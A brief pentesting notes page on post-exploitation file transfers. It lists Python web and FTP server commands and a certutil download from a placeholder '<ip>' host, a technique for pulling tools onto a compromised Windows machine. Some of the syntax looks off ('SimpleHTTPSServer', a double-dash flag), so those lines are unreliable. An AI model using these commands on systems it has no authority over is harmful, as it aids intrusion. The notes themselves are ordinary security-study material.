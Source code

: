 ```yaml
---
layout: default
title: Post Exploitation
nav_order: 2
has_children: false
parent: Pentesting
grand_parent: DylanGrl Writings
---
```


## Post Exploitation

### File Transfers 

Hosting a file using python and a web server: 

```bash
python -m SimpleHTTPSServer 80
```

Hosting a file using python and a ftp server: 

```bash
python -m pyftpdlib 21
```


Downloading on Windows using Certutil

```powershell
certutil.exe --urlcache -f http://<ip>/<file> file.ext
```

